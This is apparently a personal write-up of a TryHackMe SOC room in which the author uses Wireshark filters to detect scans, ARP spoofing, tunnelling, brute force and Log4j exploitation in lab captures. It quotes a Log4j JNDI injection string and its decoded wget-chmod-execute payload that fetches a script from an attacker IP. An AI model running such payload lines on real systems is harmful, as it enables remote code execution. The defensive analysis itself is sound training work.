# Day 31: Wireshark: Traffic Analysis

**Path:** SOC Level 1
**Platform:** TryHackMe
**Status:** ✅ Completed (two sub-tasks answered from notes only — no screenshot captured, called out in Steps below)

---

## 📌 Overview

This room is the applied half of the Wireshark series: instead of learning the tool, I used it to fingerprint attacker behaviour across a stack of protocols. The room is split into distinct investigative skills, and each one comes with its own "shape" to look for in a capture:

**Nmap scan fingerprinting.** The three scan types leave different TCP/UDP signatures. A TCP connect scan (`nmap -sT`) has to complete the full three-way handshake, so it's unprivileged-user-friendly and its SYN packets carry a window size larger than 1024 bytes because the connection expects to exchange real data. A SYN scan (`nmap -sS`) is privileged-only and never finishes the handshake — SYN, then either SYN/ACK-followed-by-RST (open) or RST/ACK (closed) — with a window size at or under 1024 bytes. A UDP scan doesn't handshake at all: an open port stays silent, a closed one answers with ICMP type 3 / code 3 (destination unreachable, port unreachable). The base filters I leaned on: `tcp.flags.syn==1 and tcp.flags.ack==0 and tcp.window_size > 1024` for connect scans, and `icmp.type==3 and icmp.code==3` for UDP closed-port responses.

**ARP poisoning / MITM detection.** ARP has no authentication, isn't routable, and only works on the local segment — which is exactly why it's abused. The tell-tale pattern is a single MAC address claiming two different IPs across the capture: first announcing its "real" IP, then later claiming the gateway's IP too, while also flooding ARP requests against a whole IP range (classic host discovery before the attack). Once I added the destination MAC as a column, it became obvious the attacker's MAC was the destination of every HTTP packet from the victim — full MITM, silently forwarding and sniffing the victim's traffic.

**Host/user identification via DHCP, NetBIOS, and Kerberos.** DHCP Request packets carry Option 12 (hostname), Option 50 (requested IP), and Option 61 (client MAC) — `dhcp.option.hostname contains "keyword"` finds a host fast. NBNS registration traffic (`nbns.name contains "keyword" and nbns.flags.opcode==5`) shows how aggressively a workstation is broadcasting its name. Kerberos identifies users through the `CNameString` field — but the room's key gotcha is that this field also carries hostnames, and hostnames always end in `$`, so `kerberos.CNameString and !(kerberos.CNameString contains "$")` isolates real usernames from machine accounts.

**ICMP and DNS tunnelling.** Both protocols are trusted-by-default and get through most perimeters, which is exactly why they're abused for C2 and exfiltration. ICMP tunnels give themselves away with abnormal payload sizes — regular ICMP is ~64 bytes, so anything consistently larger (`data.len > 64 and icmp`) is worth a look, and the payload itself can leak the tunnelled protocol's banner. DNS tunnels/exfil show up as unusually long queries to subdomains that are really encoded data rather than real hostnames (`dns.qry.name.len > 15 and !mdns`).

**FTP, HTTP, User-Agent, and Log4j.** FTP is cleartext by design, so `USER`/`PASS` commands and response code `530` (bad login) surface brute-force and password-spray patterns directly. HTTP analysis leans on request methods, response codes, and the `User-Agent` string — the room's rule of thumb is to never whitelist a user agent just because it "looks" normal (`Mozlilla` vs `Mozilla` is the kind of typo that hides in plain sight), and to specifically hunt for audit-tool signatures like Nmap, sqlmap, Nikto, and Wfuzz. Log4j exploitation traffic has a recognisable signature: it starts as a POST request and carries a `${jndi:ldap://...}` string, often followed by a Base64-encoded payload worth decoding.

**Decrypting HTTPS and the bonus tasks.** TLS traffic is opaque without the session keys, but a browser-generated `SSLKEYLOGFILE` (loaded via Wireshark's Preferences → Protocols → TLS menu) lets Wireshark decrypt it live, turning `Client Hello`/`Application Data` into readable HTTP2 headers and payloads. Separately, Wireshark's built-in **Tools → Credentials** feature parses several cleartext-friendly dissectors (FTP, HTTP, IMAP, POP, SMTP) and lists every detected username/password pair without hand-filtering the capture. **Tools → Firewall ACL Rules** goes a step further and turns a selected packet straight into a ready-to-deploy blocking rule (ipfw, iptables, Cisco IOS, pf, Windows Firewall, etc.) from source/destination IP, port, or MAC address.

---

## 🛠️ Tools Used

- Wireshark (display filters, "Apply as Column", Follow HTTP/TCP stream, Preferences → Protocols → TLS, Tools → Credentials, Tools → Firewall ACL Rules)
- CyberChef (Defang IP Addresses, From Base64 recipes)
- Nmap traffic patterns (analysis only — no scans run by me, just fingerprinting captured Nmap traffic)

---

## 🪜 Steps Followed

**1. Fingerprinted the TCP Connect scan.** Filtered for `tcp.flags.syn==1 and tcp.flags.ack==0 and tcp.window_size > 1024` against the exercise capture and confirmed the full scan volume — every SYN in this range came from a connect-style scan with a window size consistent with a completed handshake.



**2. Counted UDP closed-port responses.** Switched to `icmp.type==3 and icmp.code==3` to isolate every "destination/port unreachable" message — the signature of a UDP scan hitting a closed port.



**3. Found the one open UDP port in the 55–70 range.** Narrowed with `udp.port in {55 .. 70}` and matched each UDP request against whether it got an ICMP unreachable reply back. Port 67 got answered with "port unreachable" (closed); port 68 never did — meaning it's open.



**4. Started the ARP investigation — first pass came up empty.** Ran `arp.duplicate-address-detected or arp.duplicate-address-frame` and got zero hits, which told me I was pointed at the wrong capture file for this task.



**5. Re-ran the filter against the correct capture and found the conflict.** Two different MAC addresses claiming `192.168.1.1` — Wireshark's own expert flag confirmed it: "Duplicate IP address detected for 192.168.1.1".



**6. Counted the attacker's crafted ARP requests.** Filtered `arp.opcode == 1 and eth.src == 00:0c:29:e2:18:b4` to isolate every request broadcast by the suspect MAC — 284 of them, all part of the host-discovery flood.



**7. Confirmed the MITM by checking who HTTP traffic was actually going to.** `http and eth.dst == 00:0c:29:e2:18:b4` returned 90 packets — every HTTP frame in the capture was being routed through the attacker's MAC, not straight to its real destination.



**8. Isolated the POST requests inside that hijacked traffic.** Added `and http.request.method == "POST"` to pull out only the credential-bearing submissions from the intercepted stream.



**9. Verified one submission at the byte level.** Inspected the hex/ASCII pane on one of the POSTs and could read the raw form data directly: `uname=test&pass=test`.



**10. Filtered specifically for username-bearing POSTs.** `eth.dst == 00:0c:29:e2:18:b4 and http.request.method == "POST" and frame contains "uname"` returned 7 packets across `/userinfo.php` and `/secured/newuser.php`.



**11. Confirmed the final credential count.** Same filter, same 7-packet result — but the actual count of distinct sniffed username/password entries is 6, since one of the packets shown here duplicates an entry already captured elsewhere in the stream.



**12. Pulled the password for "Client986".** Filtered `http.request.method == "POST" and frame contains "client986"` and read the form fields directly out of the packet details: `uname=client986`, `pass=clientnothere!`.



**13. Pulled the comment left by "Client354".** Same approach with `frame contains "client354"` — form field `comment = Nice work!`.



**14. Reviewed a reference ARP-flood pattern.** Looked at a separate illustrative capture (`arp-flood.pcapng`) showing the same shape of anomaly from the theory section — one MAC broadcasting "Who has X? Tell 192.168.1.25" against a huge range of IPs in rapid succession — as a clean example of what a flood looks like outside the messier exercise traffic.



**15. Opened the DHCP/NetBIOS/Kerberos task and read the brief.** Two capture files for this section: `dhcp-netbios.pcap` for the DHCP/NetBIOS questions, `kerberos.pcap` for the Kerberos ones.



**16. Filtered DHCP traffic by hostname.** `dhcp.option.hostname contains "Galaxy"` surfaced a DHCP Request from a device announcing itself as `Anthony-s-Galaxy-A30s`.



**17. Read the MAC address straight off the same packet's Option 61.** Client identifier / MAC address: `9a:81:41:cb:96:6c`.



**18. Counted NetBIOS registration requests for "LIVALJM".** `nbns.name contains "LIVALJM" and nbns.flags.opcode == 5` returned 16 registration packets from that workstation.



**19. Matched a requested IP address back to its hostname.** `dhcp.option.requested_ip_address == 172.16.13.85` pointed to a Request with Host Name `Galaxy-A12`.



**20. Filtered Kerberos traffic for the username "u5".** `kerberos.CNameString contains "u5"` returned multiple AS-REQ/AS-REP/TGS-REP packets between `10.1.12.2` and `10.5.3.1`.



**21. Defanged the resolved IP address for the answer.** Since Kerberos runs on port 88, the request's destination (`10.5.3.1`) is the KDC and the source (`10.1.12.2`) is the actual user host — ran that through CyberChef's Defang IP Addresses recipe to get `10[.]1[.]12[.]2`.



**22. Double-checked the AS-REQ packet detail to confirm the direction.** Confirmed `cname-string: u5` on the request going to the KDC, matching the source/destination read from the previous step.



**23. Found the hostname associated with the Kerberos traffic.** A separate TGS-REP carried `CNameString: xp1$` — the trailing `$` marks it as a machine account rather than a user, giving the hostname `xp1$`.



**24. Spotted oversized ICMP echo packets.** `data.len > 64 and icmp` on `icmp-tunnel.pcap` returned a long run of echo requests carrying payloads well beyond the normal 64-byte size, with the same fixed ICMP identifier (`0xfeff`) reused across all of them.



**25. Identified the tunnelled protocol from the payload.** One of the later echo replies had a readable ASCII string sitting inside the ICMP payload: `SSH-2.0-OpenSSH_5.3` — confirming the tunnel was carrying SSH traffic.



**26. Found the DNS exfil domain.** Investigating `dns.pcap` for anomalously long queries turned up repeated MX queries for very long, high-entropy subdomains all rooted at the same domain: `dataexfil.com`, defanged to `dataexfil[.]com`.



**27. Reviewed the FTP task from `ftp.pcap` — no screenshot captured for this part.** I answered directly from the room while working through it and didn't grab screenshots. Answers are in Key Findings below.

**28. Scanned the User-Agent capture for obviously flagged tools.** No filter needed at first — just scrolling the packet list surfaced entries carrying `Nmap Scripting Engine` and `Wfuzz/2.4` right in the User-Agent column.



**29. Kept scrolling and found sqlmap traffic in the same capture.** Several requests carried `sqlmap/1.4#stable (http://sqlmap.org)` as the User-Agent — six anomalous agent types total across the capture (Nmap, Wfuzz, sqlmap, and a few more).



**30. Caught the subtle spelling difference.** Packet 52 carried a User-Agent that looked legitimate at a glance but didn't match the standard string exactly — the room's warning about never whitelisting on sight, proven out in the actual traffic.



**31. First attempt at the Log4j starting packet was wrong.** Guessed packet 182 based on an early pattern match — incorrect, so went back and applied a tighter filter instead of guessing.



**32. Found the actual Log4j starting packet with `http contains jndi`.** Packet 444 carried a POST request with `User-Agent: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/...}` — the textbook Log4j exploitation signature.



**33. Pasted the raw Base64 payload into CyberChef.** Copied the Base64 blob out of the `Command/Base64/...` portion of the jndi string as-is, with no recipe applied yet.



**34. Decoded it with From Base64.** Output resolved to a shell one-liner: `wget http://62.210.130.250/lh.sh;chmod +x lh.sh;./lh.sh` — a classic stage-two payload fetch-and-execute.



**35. Defanged the attacker's IP for the answer.** Ran the decoded string through CyberChef's Defang IP Addresses recipe to get `62[.]210[.]130[.]250`.



**36. Started the HTTPS decryption task — opened the wrong pcap first.** Filtered `(http.request or tls.handshake.type == 1) and !(ssdp)` and started reviewing `Client Hello` packets, but the frame details didn't match what the question was asking for.



**37. Realized the Server Name didn't match and swapped files.** The SNI extension on the packet I'd been looking at resolved to `clientservices.googleapis.com`, not `accounts.google.com` — confirmed I needed the correct exercise capture.



**38. Loaded the session key log file.** Edit → Preferences → Protocols → TLS, and pointed the "(Pre)-Master-Secret log filename" field at `KeysLogFile.txt` so Wireshark could decrypt the session live.



**39. Confirmed the decrypted Client Hello to accounts.google.com — frame 16.** With the correct capture and key log loaded, applied the SNI as a column and located the request to `www.google.com`/`accounts.google.com` at frame 16, answering the question directly.



**40. Filtered for HTTP2 packets post-decryption.** With `http2` applied, the decrypted session revealed full handshake and application-data frames, including New Session Ticket messages — 115 HTTP2 packets total.



**41. Confirmed both answers in the room and read frame 322's authority header.** The HTTP2 packet count (115) and frame 322's `:authority` header (`safebrowsing.googleapis.com`, defanged to `safebrowsing[.]googleapis[.]com`) both checked out against the room's grader.



**42. Searched the decrypted traffic for the flag.** Ran a packet-detail string search for `flag{` and found ASCII art in a Line-based text data block spelling out `FLAG{THM-PACKETMASTER}`.



**43. Bonus — found the HTTP Basic Auth credential packet.** On `Bonus-exercise.pcap`, filtered `(http.request or tls.handshake.type == 1) and !(ssdp)` and located packet 237 — a `GET /manager/html` request carrying HTTP Basic Auth credentials.



**44. Bonus — ran Wireshark's built-in Credentials tool.** Tools → Credentials against the same capture listed every detected FTP login attempt (`admin`, `administ...`) plus one HTTP credential (`afiiskc`) without me having to hand-filter each protocol.



**45. Bonus — found the packet with an empty password.** Filtered `ftp.request.command == "PASS"` and packet 170 stood out with a bare `PASS \r\n` — no password value submitted at all.



**46. Bonus — generated a Firewall ACL rule from packet 99.** Selected the packet, opened Tools → Firewall ACL Rules, set the rule type to IPFirewall (ipfw), and read off the source-IP deny rule directly: `add deny ip from 10.121.70.151 to any in`. (I also answered the follow-up question — the "allow destination MAC" rule generated from packet 231 — from the same tool, but didn't capture a screenshot of that specific rule; it's in Key Findings below.)



---

## 🔍 Key Findings

- **Nmap scans:** 1,000 TCP Connect scan packets total; TCP port 80 was probed via a TCP Connect scan; 1,083 "UDP closed port" ICMP unreachable messages; the one open port in the 55–70 UDP range was **port 68**.
- **ARP MITM:** attacker MAC crafted **284** ARP requests; **90** HTTP packets were forwarded through the attacker's MAC; **6** distinct username/password entries were sniffed from the hijacked HTTP traffic.
- **Credentials sniffed:** `Client986` password = `clientnothere!`; `Client354` left the comment `Nice work!`.
- **DHCP/NetBIOS/Kerberos:** "Galaxy A30" host MAC = `9a:81:41:cb:96:6c`; "LIVALJM" workstation sent **16** NetBIOS registration requests; the host that requested `172.16.13.85` was `Galaxy-A12`; Kerberos user "u5" resolved to IP `10[.]1[.]12[.]2`; Kerberos hostname on the wire = `xp1$`.
- **Tunnelling:** the ICMP tunnel carried **SSH** traffic (OpenSSH_5.3 banner in the payload); the DNS exfil main domain was `dataexfil[.]com`.
- **FTP (`ftp.pcap` — no screenshots captured):** **737** incorrect login attempts; the file accessed by the `ftp` account was **39,424 bytes**; the adversary uploaded `resume.doc`; permissions were changed with `CHMOD 777`.
- **User-Agent analysis:** **6** anomalous User-Agent types detected (including Nmap, Wfuzz, sqlmap); packet **52** carried the subtly misspelled User-Agent.
- **Log4j:** attack starting packet = **444**; decoded Base64 payload = `wget http://62.210.130.250/lh.sh;chmod +x lh.sh;./lh.sh`; attacker IP (defanged) = `62[.]210[.]130[.]250`.
- **HTTPS decryption:** Client Hello to `accounts.google.com` = frame **16**; decrypted session contained **115** HTTP2 packets; frame 322's authority header (defanged) = `safebrowsing[.]googleapis[.]com`; flag = **`FLAG{THM-PACKETMASTER}`**.
- **Bonus — cleartext credentials & ACLs:** HTTP Basic Auth credential packet = **237**; empty-password FTP packet = **170**; ipfw deny-source rule (packet 99) = `add deny ip from 10.121.70.151 to any in`; ipfw allow-destination-MAC rule (packet 231, no screenshot) = `add allow MAC 00:d0:59:aa:af:80 any in`.

---

## 💡 Lessons Learned

- The single biggest recurring mistake today was **opening the wrong capture file** — it happened twice (once counting ARP requests, once starting the HTTPS decryption task) and both times the fix was the same: stop, re-read which `.pcap` the question actually points at, and re-run the filter. Worth building as a habit-check before trusting a filter's result count.
- The Kerberos `$`-suffix trick (hostnames end in `$`, usernames don't) is a small detail but it's the kind of thing that silently breaks a filter if you don't know it — good one to remember for any future AD/Kerberos-heavy room.
- Wireshark's **Tools → Credentials** and **Tools → Firewall ACL Rules** menus did in a couple of clicks what I'd otherwise have hand-filtered for — worth defaulting to these before writing a custom filter from scratch on a cleartext-protocol or blocking-rule task.
- The ARP MITM walkthrough was a good end-to-end reminder that a single suspicious ARP packet isn't the finding — the finding is the *chain*: one MAC claiming two IPs, flooding requests against a range, then showing up as the destination MAC on someone else's HTTP traffic. Each step alone is ambiguous; together they're conclusive.
- "Never whitelist a user agent" landed harder after actually finding a typo'd one sitting next to normal traffic (packet 52) — it would have been trivial to skim past.

---

*Previous: [Day 30 — _placeholder, update with your Day 30 title/link_](../day30/day30.md)*
*Next: coming soon*
